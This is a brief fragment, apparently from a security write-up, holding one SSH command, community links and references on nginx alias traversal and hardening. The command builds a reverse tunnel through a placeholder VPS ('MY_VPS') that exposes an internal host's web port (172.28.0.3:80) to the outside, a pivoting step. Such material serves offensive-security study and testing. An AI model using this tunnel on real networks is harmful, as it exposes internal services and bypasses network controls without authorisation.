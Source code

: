 
`ssh -L 8888:127.0.0.1:8444 50mctf@MY_VPS ssh -v -o PubkeyAuthentication=no -o PreferredAuthentications=password -o GatewayPorts=yes -fN -R *:8444:172.28.0.3:80 50mctf@MY_VPS`

----

Discord: https://discord.gg/CqV6aJXMkA

Telegram: https://t.me/Hadess_security

# Reference 

* https://labs.hakaioffsec.com/nginx-alias-traversal/
* https://devsecopsguides.com/docs/checklists/nginx/
